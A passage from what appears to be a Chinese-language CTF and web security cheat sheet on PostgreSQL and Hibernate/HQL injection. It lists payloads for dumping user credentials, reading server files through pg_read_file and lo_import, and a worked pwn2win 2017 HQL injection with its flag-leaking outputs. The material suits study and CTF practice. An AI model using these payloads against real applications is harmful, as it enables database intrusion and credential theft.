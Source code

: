   - `SELECT column_name FROM information_schema.columns WHERE table_name='admin'`
- Dump all
  - `array_to_string(array(select userid||':'||password from users),',')`
- 其它
  - version()
  - current\_database()
  - user
    - current_user
    - `SELECT usename FROM pg_user;`
  - current\_schema
  - current\_query()
  - inet\_server\_addr()
  - inet\_server\_port()
  - inet\_client\_addr()
  - inet\_client\_port()
  - type conversion
    - `cast(count(*) as text)`
  - `md5('abc')`
  - `replace('abcdefabcdef', 'cd', 'XX')` => `abXXefabXXef`
  - `pg_read_file(filename, offset, length)`
    - 讀檔
    - 只能讀data_directory下的
  - `pg_ls_dir(dirname)`
    - 列目錄內容
    - 只能列data_directory下的
  - PHP的`pg_query()`可以多語句執行
  - `lo_import()`, `lo_get()`讀檔
    - `select cast(lo_import('/var/lib/postgresql/data/secret') as text)` => `18440`
    - `select cast(lo_get(18440) as text)` => `secret_here`

## ORM injection

https://www.slideshare.net/0ang3el/new-methods-for-exploiting-orm-injections-in-java-applications

- Hibernate
  - 單引號跳脫法
    - MySQL中，單引號用`\'`跳脫
    - HQL中，用兩個單引號`''`跳脫
    - `'abc\''or 1=(SELECT 1)--'`
      - 在HQL是一個字串
      - 在MySQL是字串+額外SQL語句
  - Magic Function法
    - PostgreSQL中內建`query_to_xml('Arbitary SQL')`
    - Oracle中有`dbms_xmlgen.getxml('SQL')`

HQL injection example (pwn2win 2017)

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select table_name from information_schema.columns limit 1)))',true,false,'')),1)```
  - Output: `ERROR: could not stat file "flag": No such file or directory`

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select column_name from information_schema.columns limit 1)))',true,false,'')),1)```
  - Output: `ERROR: could not stat file "secret": No such file or directory`
- `order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select secret from flag)))',true,false,'')),1)`
  - Output: `ERROR: could not stat file "CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}": No such file or directory`
